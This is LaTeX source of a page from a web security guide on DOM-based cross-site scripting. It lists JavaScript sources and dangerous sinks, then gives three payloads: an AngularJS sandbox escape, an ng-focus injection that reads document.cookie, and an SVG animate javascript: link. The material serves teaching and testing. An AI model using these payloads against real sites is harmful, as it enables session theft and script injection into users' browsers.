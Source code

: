 \documentclass[12pt]{article}
\begin{document}
\begin{tcolorbox}[title={\textbf{4.1 Source \& Sink Analysis}}, colback=lightblue]
\begin{itemize}[leftmargin=*]
    \item \textbf{Identify Sources:}
    \begin{itemize}
        \item \texttt{document.URL}, \texttt{location.hash}
        \item \texttt{window.name}, \texttt{document.referrer}
        \item \texttt{localStorage}, \texttt{sessionStorage}
        \item PostMessage events
    \end{itemize}
    
    \item \textbf{Identify Dangerous Sinks:}
    \begin{itemize}
        \item \texttt{innerHTML}, \texttt{outerHTML}
        \item \texttt{document.write()}
        \item \texttt{eval()}, \texttt{setTimeout()}, \texttt{setInterval()}
        \item \texttt{location.href}, \texttt{location.assign()}
        \item \texttt{Element.setAttribute()}
    \end{itemize}
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[title={\textbf{4.2 Advanced DOM Exploitation}}, colback=lightgreen]
\begin{itemize}[leftmargin=*]
    \item \textbf{AngularJS Sandbox Escape:}
\begin{lstlisting}[basicstyle=\ttfamily\small]
   ?search=1&toString().constructor.prototype.charAt=[].join;
   [1]|orderBy:toString().constructor.fromCharCode(120,61,97,
   108,101,114,116,40,49,41)=1
    \end{lstlisting}
    
    \item \textbf{Angular Event-based XSS:}
    \begin{lstlisting}[basicstyle=\ttfamily\small]
    <input id=x ng-focus=$event.composedPath()|orderBy:
    '(z=alert)(document.cookie)'>#x
    \end{lstlisting}
    
    \item \textbf{SVG Animation Bypass:}
    \begin{lstlisting}[basicstyle=\ttfamily\small]
    <svg><a><animate attributeName=href values=javascript:
    alert(1) /><text x=20 y=20>Click me</text></a></svg>
    \end{lstlisting}
\end{itemize}
\end{tcolorbox}
\end{document}
